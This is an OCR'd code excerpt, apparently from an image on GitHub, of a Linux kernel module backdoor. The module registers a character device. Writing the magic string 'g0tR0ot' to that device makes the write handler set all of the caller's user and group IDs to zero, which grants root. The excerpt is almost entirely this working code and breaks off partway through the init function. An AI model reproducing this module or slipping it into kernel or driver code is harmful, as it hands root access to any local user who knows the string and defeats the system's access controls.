     static int
    root_open (struct inode *inode, struct file *f)
    {
       return 0;
    }
    
    static ssize_t
    root_read (struct file *f, char *buf, size_t len, loff_t *off)
    {
      return len;
    }
    
    static ssize_t
    root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
    { 
      char   *data;
      char   magic[] = "g0tR0ot";
    
      struct cred *new_cred;
      
      data = (char *) kmalloc (len + 1, GFP_KERNEL);
        
      if (data)
        {
          copy_from_user (data, buf, len);
            if (memcmp(data, magic, 7) == 0)
    	  {
    	    if ((new_cred = prepare_creds ()) == NULL)
    	      {
    		return 0;
    	      }
    	    V(new_cred->uid) = V(new_cred->gid) =  0;
    	    V(new_cred->euid) = V(new_cred->egid) = 0;
    	    V(new_cred->suid) = V(new_cred->sgid) = 0;
    	    V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
    	    commit_creds (new_cred);
    	  }
            kfree(data);
          }
        
        return len;
    }
    
    
    static int __init
    root_init(void)
    {
      // Create char device
      if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
        {
          return majorNumber;
        }
     
       // Register the device class
       rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
       if (IS_ERR(rootcharClass))
         {
           unregister_chrdev(majorNumber, DEVICE_NAME);
           return PTR_ERR(rootcharClass); 
       }
     